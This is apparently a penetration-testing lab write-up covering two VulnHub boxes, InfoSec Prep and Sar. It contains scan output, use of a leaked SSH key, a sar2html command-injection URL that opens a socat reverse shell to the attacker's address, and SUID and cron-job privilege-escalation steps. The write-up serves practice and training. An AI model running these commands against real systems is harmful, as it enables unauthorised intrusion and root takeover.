# InfoSec Prep

**Box** : [InfoSec Prep](https://www.vulnhub.com/entry/infosec-prep-oscp,508/).  
**Vulnerability** : Sensitive data Exposure.  
**Vulnerability explanation** : private ssh key left on sever.  
**Privilege Escalation** : Executing SUID executables (bash)

---

## nmap scan

nmap scan revealed that `Apache httpd 2.4.41` is running on port `80`, and robots.txt contains a Disallowed entry: `/secret.txt`



```
$ nmap 192.168.1.102 -sV -sC
Nmap scan report for 192.168.1.102
Host is up (0.00067s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91:ba:0d:d4:39:05:e3:13:55:57:8f:1b:46:90:db:e4 (RSA)
|   256 0f:35:d1:a1:31:f2:f6:aa:75:e8:17:01:e7:1e:d1:d5 (ECDSA)
|_  256 af:f1:53:ea:7b:4d:d7:fa:d8:de:0d:f2:28:fc:86:d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/secret.txt
|_http-generator: WordPress 5.4.2
|_http-title: OSCP Voucher &#8211; Just another WordPress site
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Oct  4 08:16:54 2022 -- 1 IP address (1 host up) scanned in 22.49 seconds
```

## Initial foothold

`secret.txt` conatins a base64 value

```
$ curl 192.168.1.102/secret.txt -O
```



**Decoded it and got a ssh private key**

`cat secret.txt | base64 -d > ssh-key`



**Used ssh-key to get a session as `oscp` user**

```
$ chmod 0600 ssh-key
$ ssh -i ssh-key oscp@192.168.1.102
```



## Privilge Escalation

**Used `find` command to list files with SUID bit set.**

```
$ find / -type f -perm -u=s 2>/dev/null
```


**The output showed that `/usr/bin/bash` is one of them.**



**Ran `bash -p` and got a root shell**



# Sar

**Box**: [sar](https://www.vulnhub.com/entry/sar-1,425/)  
**Vulnerability**: Remote Command Execution  
**Privilege Escalation**: Cronjob abuse

---

## nmap scan



```
$ nmap -A 192.168.1.104
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-06 11:43 EDT
Nmap scan report for 192.168.1.104
Host is up (0.00065s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.66 seconds
```

## Initial foothold

**`robots.txt` contains one value: `sar2HTML`**



**Browsed to `http://192.168.1.104/sar2HTML` and got the home page**



**Looked for an exploit online and found this one at [exploitdb](https://www.exploit-db.com/exploits/47204)**

```
# Exploit Title: sar2html Remote Code Execution
# Date: 01/08/2019
# Exploit Author: Furkan KAYAPINAR
# Vendor Homepage:https://github.com/cemtan/sar2html 
# Software Link: https://sourceforge.net/projects/sar2html/
# Version: 3.2.1
# Tested on: Centos 7

In web application you will see index.php?plot url extension.

http://<ipaddr>/index.php?plot=;<command-here> will execute 
the command you entered. After command injection press "select # host" then your command's 
output will appear bottom side of the scroll screen.
```

**Tested the exploit:**



**Used socat reverse shell found at [PayloadAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#socat)**

**Sat up a listener**

```
socat file:`tty`,raw,echo=0 TCP-L:444
```

**Browsed to `http://192.168.1.104/sar2HTML/index.php?plot=;socat%20exec:%27bash%20-li%27,pty,stderr,setsid,sigint,sane%20tcp:192.168.1.100:4444` and got a reverse shell as `www-data`.**


## Privilege Escalation

**Examined the content of `/etc/crontab` and found a job running every 5 minutes to execute `/var/www/html/finally.sh`.**



**Examined `finally.sh` and found that it executes `write.sh` which we can modify.**



**Backed up `write.sh` as `write.sh.orig`**

**Modified `write.sh` with the following:**

```
#!/bin/sh

cp /bin/bash /bin/mybash
chmod u+s /bin/mybash
```



**Waited for 5 minutes, and `mybash` was created with the SUID bit set.**



**Ran `mybash -p` and got a root shell**


